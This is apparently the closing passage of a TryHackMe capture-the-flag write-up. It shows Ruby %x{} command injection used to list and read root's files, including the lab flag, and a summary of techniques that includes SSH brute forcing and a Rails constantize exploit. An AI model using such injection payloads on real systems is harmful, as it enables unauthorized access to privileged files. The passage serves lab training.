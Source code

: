 Nice! We can execute any commands!

```shell
$ %x{ls -lah /root}
total 32K
drwx------  4 root    root    4.0K May 17  2021 .
drwxr-xr-x 23 root    root    4.0K May 17  2021 ..
-rw-r--r--  1 root    root    3.1K May 12  2021 .bashrc
drwx------  2 root    root    4.0K May 12  2021 .cache
drwx------  3 root    root    4.0K May 12  2021 .gnupg
-rw-r--r--  1 root    root     148 Aug 17  2015 .profile
-rw-r--r--  1 vagrant vagrant   37 May 17  2021 root.txt
-rwxr-xr--  1 vagrant vagrant  612 May 17  2021 server.rb
```

### Rooted

**root.txt:**
```shell
$ %x{cat /root/*}
THM{Redacted}[...]
```

# Conclusion

What we've learned:

1. Writing Ruby Script to Brute Force SSH
2. Exploiting Ruby on Rails Insecure `constantize`
3. Escaping Restricted Shell
4. Ruby Filter Bypass
